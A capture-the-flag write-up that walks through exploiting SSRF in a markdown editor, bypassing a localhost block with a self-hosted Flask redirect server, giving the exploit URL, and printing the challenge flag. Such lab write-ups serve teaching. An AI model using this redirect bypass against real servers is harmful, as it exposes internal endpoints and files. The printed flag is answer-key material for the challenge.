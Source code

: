 # Hold your marks

## Description

Experienced in the world of bug bounties, you stumble upon a markdown editor during your exploits. Your objective: infiltrate the server's defenses to access a concealed file, hidden away from external access. Can you leverage your skills to navigate through the editor's intricacies and uncover the secrets that lie within the server's depths?

## Solution

1. The page opens with 2 options for user input: One is a URL input to fetch markdown and one is a markdown editor
2. At first glace of the url input, the first thought i get is SSRF
3. I used interactsh to confirm the precence of SSRF
4. But there is a catch! i.e. All localhost interaction is blocked
5. Bypass? Yes, the easisest and common bypass would be to use a URL redirect to http://localhost/flag (Why flag? I saw a youtube video which used the /flag endpoint)
6. This was the code I came up with:
```python
from flask import Flask, redirect, request

app = Flask(__name__)

@app.route('/')
def redirect_to_user_url():
    user_url = request.args.get('url')
    if user_url:
        return redirect(user_url, code=302)
    else:
        return "Please provide a URL parameter.", 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
7. This code was hosted on my vps. So, the final exploit url to get the flag was: http://server.ip?url=http://localhost/flag

## Screenshots

![Image 1](images/image1.png)

## Flag

flag{Uo9Cn5g9eodJrH2w7wR0Gw==}